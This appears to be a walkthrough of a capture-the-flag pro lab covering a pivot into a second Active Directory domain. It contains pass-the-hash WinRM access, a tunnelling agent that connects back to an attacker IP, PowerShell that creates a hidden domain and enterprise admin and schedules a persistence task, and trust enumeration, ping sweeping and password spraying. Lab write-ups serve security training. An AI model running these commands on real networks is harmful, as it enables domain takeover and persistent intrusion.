

Pivot point to DEV.ADMIN / 172.16.2.0/24 network
└─$ evil-winrm -i 172.16.1.5 -u iamtheadministrator -H 70016778cb0524c799ac25b439bd67e0
Evil-WinRM shell v3.4
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\iamtheadministrator\Documents> type ..\Desktop\flag.txt
OFFSHORE{r3pl1cation_@ll0w_l1st}
This is where I setup my pivot to 172.16.2.0/24
I uploaded the ligolo-ng agent on the DC, created a domain administrator, created a bat file to run the agent and scheduled a task to run the bat file in the background so I didn't have to stay logged on.
To do this:
C:\temp\agent.exe -connect 10.10.16.94:443 -ignore-cert
New-ADUser -Name "agent" -SamAccountName "agent" -AccountPassword (ConvertTo-SecureString "password123!" -AsPlainText -Force) -Enabled $true -PasswordNeverExpires $true
Add-ADGroupMember -Identity "Domain Admins" -Members "agent"
Add-ADGroupMember -Identity "Administrators" -Members "agent"
Add-ADGroupMember -Identity "Enterprise Admins" -Members "agent"
$SecurePassword = ConvertTo-SecureString "password123!" -AsPlainText -Force
$UserName = "agent"
$Credentials = New-Object System.Management.Automation.PSCredential -ArgumentList $UserName, $SecurePassword
$Password = $Credentials.GetNetworkCredential().Password
$action = New-ScheduledTaskAction -Execute C:\temp\start_agent.bat
#$trigger = New-ScheduledTaskTrigger -Once -At (Get-Date).AddSeconds(30) -RepetitionInterval (New-TimeSpan -Minutes 1) -RepetitionDuration (New-TimeSpan -Seconds (1*60))
$trigger = New-ScheduledTaskTrigger -Once -At (Get-Date).AddSeconds(30) -RepetitionInterval (New-TimeSpan -Minutes 1) -RepetitionDuration (New-TimeSpan -Days 1)
$principal = New-ScheduledTaskPrincipal -UserID "agent" -LogonType Password -RunLevel Highest
$settings = New-ScheduledTaskSettingsSet -MultipleInstances IgnoreNew -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries
$Task = New-ScheduledTask -Action $action -Trigger $trigger -Settings $settings
$Task | Register-ScheduledTask -TaskName 'ScheduledTaskName' -User "agent" -Password $Password
$i = 30
while ($i -gt 0) {
if ($i -eq 1) {
Write-Host "Agent will connect in 1 second"
} else {
Write-Host "Agent will connect in $i seconds"
}
Start-Sleep -Seconds 1
$i--
}
if ((Get-ScheduledTask -TaskName "ScheduledTaskName").State -eq "Running") {
Write-Host "Agent connected successfully."
} else {
Write-Host "Agent couldn't connect."
}
mkdir c:\temp
upload /home/user/Downloads/ligolo-ng/pc_agents/agent.exe C:\temp\agent.exe
upload /home/user/Downloads/ligolo-ng/pc_agents/start_agent.bat C:\temp\start_agent.bat
upload /home/user/Downloads/ligolo-ng/schedule_task.ps1 C:\temp\schedule_task.ps1
c:\temp\schedule_task.ps1

Let's check for domain trusts from DC01 - you can use iamtheadministrator's hash to RDP into DC01 and do some commands... however, certain commands you will get “Server is not operational” error message. To get around this, create your own domain admin.
New-ADUser -Name "agent" -SamAccountName "agent" -AccountPassword (ConvertTo-SecureString "password123!" -AsPlainText -Force) -Enabled $true -PasswordNeverExpires $true
Add-ADGroupMember -Identity "Domain Admins" -Members "agent"
Add-ADGroupMember -Identity "Administrators" -Members "agent"
Add-ADGroupMember -Identity "Enterprise Admins" -Members "agent"
We RDP with these credentials into DC01 and we are able to see domain trusts with PowerView
PS C:\temp> . .\PowerView.ps1
PS C:\temp> Get-DomainTrust
SourceName : corp.local
TargetName : dev.ADMIN.OFFSHORE.COM
TrustType : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FILTER_SIDS
TrustDirection : Bidirectional
WhenCreated : 6/9/2018 2:53:05 AM
WhenChanged : 5/2/2023 7:09:49 AM
Also pull a Bloodhound dump for this domain
PS C:\temp> . .\SharpHound.ps1
PS C:\temp> Invoke-BloodHound -domain dev.admin.offshore.com
Our next domain is dev.admin.offshore.com
PS C:\temp> ping dev.admin.offshore.com
Pinging dev.admin.offshore.com [172.16.2.6] with 32 bytes of data:
Reply from 172.16.2.6: bytes=32 time<1ms TTL=127
Reply from 172.16.2.6: bytes=32 time=1ms TTL=127
We can see this is the 172.16.2.x network so let's pingsweep and see our hosts
└─$ cat pingsweep_172.16.2.sh
#!/bin/bash
for ip in 172.16.2.{1..254}; do
if ping -c 1 -W 1 "$ip" >/dev/null; then
echo "$ip" >> 172.pingsweep.txt
fi
done
└─$ cat 172.pingsweep.txt
172.16.2.6
172.16.2.102
If we look at the dev.admin domain users in Bloodhound, we can see there is no password required for joe
If we spray joe we can see he's an administrator on WS03 so let's move on